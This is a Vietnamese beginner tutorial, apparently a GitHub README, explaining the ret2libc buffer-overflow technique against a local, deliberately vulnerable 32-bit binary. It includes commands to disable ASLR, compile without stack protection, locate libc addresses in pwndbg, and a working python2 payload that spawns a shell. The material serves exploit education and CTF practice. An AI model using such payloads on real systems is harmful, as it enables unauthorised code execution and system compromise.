


# Libc là gì?
Để giải thích đơn giản libc là các thư viện chứa các hàm có sẵn để cho chúng ta gọi. Nó được liên kết vào chương trình của chúng ta qua quá trình linker.



# Vì sao sử dụng ret2libc ?

- Ret2libc còn có tên gọi khác là: Tấn công Arc-Injection là một kỹ thuật khai thác lỗ hổng `buffer-overflow` 

- Ngữ cảnh: việc truyền shellcode đôi khi khó khăn trong quá trình khai thác lỗ hổng `buffer-overflow`
	- Shellcode quá dài không để được trong buffer
	- Stack không cho thực thi shellcode
	- Shellcode quá phức tạp

	=> Chúng ta có thể tận dụng những `code có sẵn` trong chương trình, cụ thể là trong các thư viện C(libc)

- Mục tiêu: Ghi đè return address để điều hướng luồng chương trình về thực thi hàm trong libc 

- Layout của stack khi ta setup ret2libc như hình dưới:



# Demo

- Để đơn giản nhất kỹ thuật thì chúng ta cần phải `tắt` ASLR của chương trình:

```bash
	echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
- Để bật lại thì các bạn chỉ cần sửa 0 thành 2

```bash
	echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

- Để compile chạy lệnh:

```bash
	gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -o ret2libc ret2libc.c -no-pie 
```
- Để tìm địa chỉ của hàm system, exit, chuỗi "/bin/sh" thì các bạn làm như câu lệnh bên dưới

```bash
gdb ret2libc
pwndbg> breakpoint main
pwndbg> run
pwndbg> p system
$1 = {int (const char *)} 0xf7e09780 <__libc_system> #địa chỉ hàm system
pwndbg> p exit 
$2 = {void (int)} 0xf7dfc0c0 <__GI_exit> #địa chỉ exit
pwndbg> search "/bin/sh"
libc-2.31.so    0xf7f56363 '/bin/sh' # địa chỉ của chuỗi "/bin/sh" chuỗi này sẽ làm tham số cho system
```
- Tiếp theo chúng ta sẽ thiết kế payload như hình stack layout ở trên

```bash
(python2 -c "print 'A'*40 + '\x80\x97\xe0\xf7' + '\xc0\xc0\xdf\xf7' + '\x63\x63\xf5\xf7' ";cat)|./ret2libc
```
- Khi chạy trên máy của các bạn thì mọi người chỉ cần thay các địa chỉ hàm trên tương ứng với địa chỉ trong máy của mình thì sẽ chạy được.
---
# NOTE

> File trên được compile dưới dạng file 32-bit nên các bạn nào gặp lỗi khi compile chạy thử lệnh dưới đây.

```bash
sudo apt-get install gcc-multilib
```
> Kỹ thuật đã được đơn giản hóa cho người mới, các challenge CTF được chạy trên remote server sẽ khác ví dụ như: phiên bản libc khác, libc được chỉnh sửa, bật ASLR, v.v.. 
---

# Sponsors

 